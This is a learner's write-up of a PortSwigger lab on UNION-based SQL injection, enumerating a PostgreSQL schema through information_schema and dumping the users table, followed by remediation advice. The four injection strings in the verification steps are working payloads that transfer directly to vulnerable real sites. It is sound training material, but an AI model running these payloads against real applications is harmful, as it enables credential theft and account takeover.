




## LAB-5 SQL INJECTION ATTACK, LISTING THE DATABASE CONTENTS ON NON-ORACLE DATABASES

## LAB : [PortSwigger Lab 5 Link](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)

## What?

UNION-based SQL Injection allowing full database enumeration: table names →
column names → credential extraction. The attacker can map the entire schema
and dump sensitive data.

## Where?

* **Page:** `/filter` (product listing)
* **Method:** `GET`
* **Parameter:** `category` (query string)
* **No auth required**

## How did I find it?

Same entry point as previous labs: `category='` triggered an error, confirming
SQL context. The page displays multiple product fields, making UNION extraction
viable.

## How did I verify it?

**Step 1 — Confirm columns:**

`' UNION SELECT 'abc','def'--`

→ Confirmed **2 text columns**

**Step 2 — List tables:**

`' UNION SELECT table_name,NULL FROM information_schema.tables--`

→ Found `users_btzctr` among PostgreSQL system tables (`pg_*`)

**Step 3 — List columns:**

`' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_btzctr'--`

→ Found `username_evaeqr` and `password_budnse`

**Step 4 — Dump credentials**

`' UNION SELECT username_evaeqr,password_budnse FROM users_btzctr--`

→ Extracted all usernames and passwords, including
administrator

## Why does it work?

The backend query:

`SELECT * FROM products WHERE category = 'Gifts'`

With injection becomes:

`SELECT * FROM products WHERE category = '' UNION SELECT username_evaeqr,password_budnse FROM users_btzctr--`

* `information_schema.tables` and `information_schema.columns` are metadata views present in PostgreSQL/MySQL/MSSQL
* `UNION` merges attacker-controlled data into the product listing output
* The app has no access controls preventing read access to the users table

## What can an attacker do?

* Map entire database schema (all tables, all columns)
* Dump any table the database user can read
* Steal all user credentials (plaintext or hashed)
* Log in as administrator or any other user
* Pivot to account takeover, privilege escalation, or further attacks

## What are the conditions/limitations?

* **Unauthenticated** — anyone can reach the filter
* Must match **exact column count** (2) and **compatible data types**
* The database user must have **read access** to `information_schema` and the target table
* Output must be **reflected on the page** (this is a reflected/union-based scenario)
* The table and column names had **random suffixes** (`_btzctr`, `_evaeqr`, `_budnse`) — anti-automation defense

## How should it be fixed?

**Primary:** Use **parameterized queries** so category is bound as data.

**Defense-in-depth:**

* Apply **principle of least privilege** — app DB user should only have SELECT/INSERT/UPDATE on necessary tables, no access to `information_schema` or user credential tables
* Hash passwords with strong algorithms (bcrypt/Argon2) — though in this lab they appeared plaintext or weakly hashed
* Implement **WAF rules** to detect UNION, `information_schema`, and schema enumeration patterns

## What did I learn?

I learned the **full enumeration chain**: tables → columns → data. I also
learned that random suffixes on table/column names are a lab defense mechanism
— in the real world, tables are usually named plainly (users, accounts), but
you should always enumerate rather than guess. The `information_schema` is a
goldmine for attackers; restricting access to it is a critical hardening step I
previously overlooked.

## What was the key obstacle?

**Randomized table/column names.** I couldn't guess `users_btzctr` or
`username_evaeqr` — I had to systematically enumerate. This mirrors real-world
scenarios where table names are non-obvious or where developers use prefixes.
The lesson: **never guess in SQLi; always let the database tell you its own
schema.**
